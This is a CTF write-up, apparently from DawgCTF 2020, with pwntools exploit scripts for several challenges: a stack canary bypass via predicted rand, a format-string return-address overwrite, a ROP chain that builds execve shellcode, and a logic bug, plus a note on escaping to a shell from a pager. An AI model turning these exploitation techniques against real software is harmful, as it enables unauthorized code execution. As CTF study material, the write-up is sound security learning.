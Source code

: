 ## Animal Crossing

The problem is that we can sell stuff multi times.

```python
from pwn import *
context.arch = 'amd64'

r = remote("ctf.umbccd.io",4400)

def buy(idx):
    r.sendlineafter("Choice: ", '2')
    r.sendlineafter("420000 bells\n", str(idx))

def sell(idx):
    r.sendlineafter("Choice: ", '1')
    r.recv()
    r.sendline(str(idx))

buy(2)

cnt = 0
p = log.progress('Selling...')

for i in range(53):
    sell(5)
    cnt += 1
    p.status("Sell %d items", cnt)

p.success("done (%d items)", cnt)

sell(1)
buy(6)

r.interactive()
```

## Cookie Monster

Yeah we just managed to guess the random number because I'm so lazy..

```python
from pwn import *
from ctypes import *
context.arch = 'amd64'

p = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
r = remote("ctf.umbccd.io", 4200)

canary = p.rand()

sh = "%11$p"
r.sendlineafter("name?\n", sh)
r.recvuntil("Hello, ")
a = r.recvline().strip()
a = int(a, 16) - 0x134f

sh = 'a'*(0x11-0x4) + p32(canary) + p64(0) + p64(a + 0x11B5)
r.sendlineafter("cookie?\n", sh)
r.interactive()
```

## Rop

Just compare `shcraft.sh()` with the seven gadgets and we can concat them into a valid shellcode chain.

My ugly draft:

```
\xC0\x40\xCD\x80
> .byte 0xc0
> inc eax
> int 0x80

\xC1\x89\xC2\xB0
> 0xC1
> mov    edx, eax
> 0xB0

\x31\xC0\x50\x68
> xor eax, eax
> push eax
> .byte 0x68

\x68\x2F\x62\x69
> "h/bi"

\x0B\xCD\x80\x31
> 0xB   "execve"
> int 0x80
> 0x31

\x2F\x2F\x73\x68
> "//sh"

\x6E\x89\xE3\x89          + x1 / x2
> 0x6e
> mov    ebx, esp
> 0x89

x2 + x5
\xC1\x89\xC2 - \xB0\x0B\xCD\x80\x31
> mov al, 0xb; int 0x80   [SYSCALL:EXECVE]

x3 + x6 + x4 + x7 + x2 + x5
```

exp:

```python
from pwn import *
context.arch = 'i386'

r = remote("ctf.umbccd.io", 4100)

x1 = 0x08049248
x2 = 0x080492E2
x3 = 0x0804937C
x4 = 0x08049416
x5 = 0x080494B0
x6 = 0x0804954A
x7 = 0x080495E4
call = 0x0804967E
main = 0x08049714
tryme = 0x80496ca

sh = 'a'*0x10 + p32(x3) + p32(tryme)
r.recv()
r.send(sh)
sh = 'a'*0x10 + p32(x6) + p32(tryme)
r.send(sh)
sh = 'a'*0x10 + p32(x4) + p32(tryme)
r.send(sh)
sh = 'a'*0x10 + p32(x7) + p32(tryme)
r.send(sh)
sh = 'a'*0x10 + p32(x2) + p32(tryme)
r.send(sh)
sh = 'a'*0x10 + p32(x5) + p32(tryme)
r.send(sh)
sh = 'a'*0x10 + p32(call)
r.sendline(sh)
r.interactive()
```

## Coronacation

Baby format string.

```python
from pwn import *
context.arch = 'amd64'

r = remote("ctf.umbccd.io", 4300)

sh = "1..%9$p..%14$p"
r.sendlineafter("out.\n", sh)
r.recvuntil("..")
a = int(r.recvuntil("..")[:-2], 16) - 0x14d5
b = int(r.recvline().strip(), 16)
win = a + 0x1165
retaddr = b - 0x58

x1 = win & 0xff
x2 = (win >> 8) & 0xff
sh = "%{}c%10$hhn".format(x1)
sh += "%{}c%11$hhn".format(x2 - x1)
sh = sh.ljust(0x20, "a")
sh += p64(retaddr)
sh += p64(retaddr + 1)

r.sendlineafter("plan.\n", sh)
r.interactive()
```

## Nash2 (not solve)

Learned sth new.

When the output is large, we can use `more` to get into pagination, and in this panel we can easily get shell.

[Reference](https://github.com/m3ssap0/CTF-Writeups/blob/master/DawgCTF%202020/Nash2/README.md)

## trASCII (not solve)

[Alphanumeric:numeric] typed shellcode. Too lazy to solve this chal :P
